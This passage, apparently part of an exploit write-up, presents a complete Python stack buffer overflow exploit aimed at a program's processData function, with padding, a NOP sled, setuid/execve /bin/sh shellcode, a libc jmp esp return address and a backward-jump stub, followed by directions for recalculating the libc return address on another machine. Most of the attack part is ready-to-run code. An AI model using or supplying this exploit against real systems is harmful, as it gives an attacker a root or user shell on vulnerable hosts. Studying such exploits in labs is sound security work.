 

#### The exploit

The code of the exploit is shown below. 

```python
#!/usr/bin/python3


import sys
import struct


padding_char = b"A"
word_size = 4

# shellcode:        http://shell-storm.org/shellcode/files/shellcode-399.php
#                   Yeongjin Jang@blue9057      [https://twitter.com/blue9057]
shellcode_399_variant = b"\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"


if __name__ == "__main__":
    shellcode = shellcode_399_variant
    shellcode_length = len(shellcode)        
    offset = 76

    ins_jmp_backwards = b"\x83\xec\x30"  # 83EC30
    ins_jmp_stack = b"\xff\xe4"

    addr_ret = 0xf7ddf000 + 0x1778ab # 0xf7f568ab
    ret = struct.pack("I", addr_ret)
    
    backjump = 48   # 0x30
    padding = padding_char * (offset - backjump)
    nopeslide_length = backjump - shellcode_length
    nopeslide = b"\x90" * nopeslide_length
    payload = padding
    payload += nopeslide
    payload += shellcode
    
    payload += ret
    payload += ins_jmp_backwards
    payload += ins_jmp_stack
    
    sys.stdout.buffer.write(payload)
```



#### Adjusting the exploit parameters

In order to make this exploit work on your machine you need to figure out the `addr_ret` variable, which is the address to return from the `processData` function. This  `addr_ret` variable is the base address of the `libc` library and the offset to a `jmp esp` instruction within the `libc` library.
